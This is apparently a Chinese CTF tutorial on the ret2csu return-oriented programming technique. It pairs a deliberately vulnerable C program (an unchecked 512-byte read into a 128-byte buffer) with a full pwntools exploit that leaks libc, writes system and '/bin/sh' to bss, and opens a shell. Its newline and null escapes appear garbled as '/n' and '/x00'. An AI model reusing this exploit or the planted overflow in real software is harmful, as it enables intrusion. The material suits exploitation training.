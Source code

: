 ```yaml
---
title: 【PWN】ret2csu
---
```


## 原理

在64位程序中，当函数参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9，在大多时候下，当参数过多的时候，我们很难找到部署寄存器值的gadget。不过还有一些万能gadget能被我们利用，__libc_csu_init这个函数是用来对libc进行初始化操作的，下面先来看一下这个函数

![image-20210106101011242](/assets/wgpsec/images/ret2csu/1.png)

![image-20210119152202060](/assets/wgpsec/images/ret2csu/2.png)

从上面两个图可以看出不同版本的这个函数有一定的区别。但影响不大，重要的是如何构造payload，像write函数有三个参数，在64位系统下，我们需要往rdi，rsi，rdx三个寄存器中写入数据。注意看红色框2的部分的前三条汇编指令 ，其中edi是rdi的低32位，在绝大多数情况下也能达到相同的效果。而r15，r14，r13又可以由红色框2进行控制，通过利用这两段代码就能达到间接控制寄存器的功能了。

```assembly
mov     rdx, r15   
mov     rsi, r14
mov     edi, r13d
```
## 例题

题目来源：一步一步学ROP之linux_x64篇 – 蒸米，链接：https://github.com/zhengmin1989/ROP_STEP_BY_STEP/blob/master/linux_x64/level5。源代码如下：

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
	write(STDOUT_FILENO, "Hello, World/n", 13);
	vulnerable_function();
}
```

有明显的栈溢出，使用ida64查看，plt表中只有write函数和read函数。

![image-20210119203354798](/assets/wgpsec/images/ret2csu/3.png)

我们的目的是执行system("/bin/sh")，所以需要泄露libc函数的地址，可以通过write打印出来，通过计算偏移可以求出system函数的地址，然后使用read函数将真实的system函数地址和/bin/sh字符串写入bss段，最后调用system函数即可。

![image-20210119204007415](/assets/wgpsec/images/ret2csu/4.png)

其中rbx设为0，是为了防止其干扰 call    qword ptr [r12+rbx*8]的执行，这样我们就可以通过控制r12的值进行控制函数执行流。将rbp设为1，是为了不让这句代码jnz     short loc_4005F0进行跳转，原因是rbx最初为0，然后又加1了，所以rbx的值为1，cmp rbx，rbp是比较rbx和rbp的大小，jnz是rbx != rbp时才跳转，我们不希望它跳转，所以控制它俩相等。

同理，可继续构造payload。

![image-20210119204841035](/assets/wgpsec/images/ret2csu/5.png)

可能有人会有疑问，为什么要将system函数地址写入bss段这么麻烦，是因为这行代码call    qword ptr [r12+rbx*8]是间接跳转，也就是先将r12地址的值取出来，再进行跳转。最后的效果就是，从bss_addr中取出system函数的地址，再跳转到system函数处。

![image-20210119204946143](/assets/wgpsec/images/ret2csu/6.png)

最终的payload，其中有几个玄学的点，开debug模式就会失败，第三个payload使用cyclic(0x38)会失败，通过LibcSeacher找函数偏移也会失败。（暂且找不到原因）

```python
from pwn import *

#context.log_level = 'debug'

p = process('./level5')
elf = ELF('./level5')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

write_got = elf.got['write']
read_got = elf.got['read']
main_addr = 0x400564
bss_addr = 0x601028
gadget1 = 0x400606
gadget2 = 0x4005F0

payload1 = cyclic(0x88) + p64(gadget1) + p64(0) + p64(0) + p64(1) + p64(write_got) + p64(1) + p64(write_got)
payload1 += p64(8) + p64(gadget2) + cyclic(0x38) + p64(main_addr)

p.sendlineafter('/n', payload1)
sleep(1)

write_addr = u64(p.recv(8))
sys_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])

payload2 = cyclic(0x88) + p64(gadget1) + p64(0) + p64(0) + p64(1) + p64(read_got) + p64(0) + p64(bss_addr)
payload2 += p64(16) + p64(gadget2) + cyclic(0x38) + p64(main_addr)

p.sendlineafter('/n', payload2)
sleep(1)

p.send(p64(sys_addr))
p.send("/bin/sh/x00")


payload3 = cyclic(0x88) + p64(gadget1) + p64(0) + p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr + 8) + p64(0)
payload3 += p64(0) + p64(gadget2) + '/x00' * 0x38 + p64(main_addr)

sleep(1)
p.sendlineafter('/n', payload3)

p.interactive()
```

